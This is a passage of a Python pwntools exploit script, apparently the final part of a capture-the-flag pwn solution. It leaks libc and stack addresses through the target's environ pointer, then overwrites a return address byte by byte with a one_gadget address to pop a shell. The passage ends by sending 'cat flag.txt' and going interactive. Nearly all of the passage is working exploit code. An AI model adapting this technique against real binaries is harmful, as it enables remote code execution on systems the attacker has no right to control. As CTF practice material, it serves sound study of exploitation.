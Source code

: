 ```py
    log.info(f'LIBC @ {hex(libc.address)}')

    offset_to_environ = libc.sym.environ - exe.sym.data

    slap_length(0, offset_to_environ, 8)
    p.recvline()

    leak = p.recvline()[12:-6]

    stack_leak = u64(leak.ljust(8, b'\x00')) 

    ret_address = stack_leak - 0x120

    log.info(f'STACK @ {hex(stack_leak)}')


    slap_length(0, ret_address - exe.sym.data - 8, 8) #copy stack address to RBP

    char_set_libc = [i for i in open("libc_dump", 'rb').read()] 

    libc.sym.one_gadget = libc.address + 0xebc88


    payload = p64(libc.sym.one_gadget)
    libc.bss_address = libc.address + 0x21a000
    for i in range(3):
        idx = char_set_libc.index(payload[i]) + (libc.bss_address - exe.sym.data)
        clap(ret_address - exe.sym.data, idx)

    
    #input('WIN')
    clap(0, 0)

    p.sendline("cat flag.txt")
    p.interactive()


if __name__ == "__main__":
    main()
```

